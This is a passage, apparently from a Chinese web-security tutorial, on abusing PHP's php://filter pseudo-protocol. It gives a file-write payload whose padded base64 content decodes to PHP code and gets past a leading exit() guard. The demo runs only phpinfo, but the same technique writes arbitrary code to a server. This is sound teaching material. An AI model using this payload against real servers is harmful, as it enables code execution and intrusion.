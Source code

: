 ![filter_write_1](.\php伪协议image\filter_write_1.png)

写入后的文件如下：

![filter_write_code](.\php伪协议image\filter_write_code.png)

访问后并不会执行`phpinfo();`因为exit();退出了

![filter_write_2](.\php伪协议image\filter_write_2.png)

可以使用php://filter的过滤器对原本的代码进行转换使其解析不了

```txt
file=php://filter/write=convert.base64.decode/resource=1.php
content=aaaPD9waHAgcGhwaW5mbygpOw==
PD9waHAgcGhwaW5mbygpOw== --> <?php phpinfo();
前面填充的aaa是为了让<?php exit('66');?>aaaPD9waHAgcGhwaW5mbygpOw==满足4的倍数才能使base64正确解码
```
